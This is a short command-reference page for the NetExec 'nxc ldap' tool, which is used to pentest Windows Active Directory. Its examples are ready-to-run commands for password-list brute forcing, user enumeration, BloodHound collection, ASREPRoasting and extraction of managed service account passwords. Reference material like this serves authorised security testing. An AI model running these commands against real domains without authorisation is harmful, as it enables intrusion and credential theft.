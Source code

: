 # nxc-ldap

> Pentest and exploit Windows Active Directory Domains via LDAP. More information: <https://www.netexec.wiki/ldap-protocol>.

## Examples

### Search for valid domain credentials by trying out every combination in the specified lists of usernames and passwords

```bash
nxc ldap 192.168.178.2 [-u|--username] path/to/usernames.txt [-p|--password] path/to/passwords.txt
```

### Enumerate active domain users

```bash
nxc ldap 192.168.178.2 [-u|--username] username [-p|--password] password --active-users
```

### Collect data about the targeted domain and automatically import these data into BloodHound

```bash
nxc ldap 192.168.178.2 [-u|--username] username [-p|--password] password --bloodhound [-c|--collection] All
```

### Attempt to collect AS_REP messages for the specified user in order to perform an ASREPRoasting attack

```bash
nxc ldap 192.168.178.2 [-u|--username] username [-p|--password] '' --asreproast path/to/output.txt
```

### Attempt to extract the passwords of group managed service accounts on the domain

```bash
nxc ldap 192.168.178.2 [-u|--username] username [-p|--password] password --gmsa
```

